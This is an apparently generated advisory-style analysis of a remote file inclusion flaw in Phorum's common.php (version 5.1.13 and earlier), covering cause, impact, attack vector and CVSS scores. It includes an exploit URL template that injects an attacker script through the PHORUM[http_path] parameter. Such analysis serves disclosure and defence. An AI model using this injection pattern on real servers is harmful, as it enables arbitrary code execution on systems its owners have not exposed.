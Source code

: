Based on the provided content, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) issue. It stems from the `common.php` script in Phorum, where the `PHORUM[http_path]` parameter is not properly sanitized or validated. This allows an attacker to inject a URL pointing to an external malicious script.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include remote files via the `PHORUM[http_path]` parameter.
*   **Lack of Input Sanitization:**  The application fails to properly validate or sanitize the input provided to the `PHORUM[http_path]` parameter, allowing for the injection of arbitrary URLs.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious script, an attacker can execute arbitrary code on the server running Phorum.
*   **System Compromise:** This could lead to complete system compromise, data theft, website defacement, and other malicious activities.
*   **Partial Confidentiality, Integrity, and Availability Impact:** As indicated by the CVSS score, the impact includes partial loss of confidentiality, integrity, and availability.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is triggered by crafting a malicious HTTP GET request to the `common.php` script, including the `PHORUM[http_path]` parameter with the URL of the attacker's script.
*   **Remote Exploitation:** The vulnerability can be exploited remotely over the network.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to have network access to the server running the vulnerable Phorum installation.
*   **No Authentication Required:** The vulnerability can be exploited without any prior authentication.
*   **Low Attack Complexity:** The attack is relatively easy to execute.

**Additional Details:**

*   The advisory mentions Phorum version 5.1.13 and earlier are vulnerable.
*   The exploit URL example is: `http://www.site.com/[phorum_path]/common.php?PHORUM[http_path]=[evil_scripts]`.
*   The exploit range is remote with low attack complexity and no authentication required.
*   The vulnerability is categorized as CWE-Other.
*   The CVSS base score is 7.5, with exploitability subscore 10 and impact subscore 6.4.